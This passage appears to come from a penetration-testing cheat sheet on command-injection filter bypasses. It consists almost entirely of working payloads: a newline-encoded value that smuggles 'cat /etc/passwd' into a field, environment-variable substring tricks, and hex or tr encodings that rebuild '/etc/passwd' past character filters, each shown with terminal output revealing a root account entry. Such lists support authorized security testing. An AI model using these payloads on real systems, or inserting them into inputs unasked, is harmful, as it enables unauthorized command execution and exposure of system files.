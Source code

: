 ```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Bypass with a line return

```
something%0Acat%20/etc/passwd
```

### Bypass characters filter via hex encoding

```
#linux

swissky@crashlab▸ ~ ▸ $ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Bypass characters filter

```
#Commands execution without backslash and slash - linux bash

swissky@crashlab▸ ~ ▸ $ echo ${HOME:0:1}
/

swissky@crashlab▸ ~ ▸ $ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ echo . | tr '!-0' '"-1'
/

swissky@crashlab▸ ~ ▸ $ tr '!-0' '"-1' <<< .
/

swissky@crashlab▸ ~ ▸ $ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash

```
